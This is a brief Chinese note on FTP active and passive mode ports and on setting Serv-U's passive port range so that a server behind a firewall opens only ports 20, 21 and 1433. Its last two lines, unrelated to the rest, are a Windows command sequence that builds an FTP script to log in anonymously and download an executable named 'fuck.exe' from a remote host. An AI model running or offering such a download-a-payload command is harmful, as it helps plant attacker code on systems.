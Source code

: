 一个FTP的传输过程不仅仅只需要21一个端口，而是2个端口，21端口只是一个命令端口，其实另外还有一个数据端口

在主动模式中，FTP的两个端口是相对固定的，如果命令端口是x的话，那数据端口就是x-1，也就是说默认情况下，命令端口是21，数据端口就是20;

你把命令端口改成了600，那么数据端口就是599。

这样使用防火墙就很方便了，只要开通这两个端口就可以了，但是如果客户端是共享上网的话那岂不是不能正常使用FTP了，这样还是不行，一定需要被动模式。


在被动模式中就麻烦了些，默认情况下命令端口是21，但是数据端口是随机的，被动模式中数据端口的范围是可以自定义的，

以Serv-U 6.1.0.5版为例，在/Local Server/Settings/Advanced/中，这下好了，把被动模式中的端口范围也设置为20-20，

那么不管客户端使用何种模式来访问我的FTP，都只需要开通这两个端口了，

再加上SQL Server的1433，一台服务器总共才开了3个端口，这下应该比较安全了，装上防火墙。


echo open 8.8.8.8  >a.txt & echo get fuck.exe>>a.txt &echo bye>>a.txt
ftp -A -s:a.txt
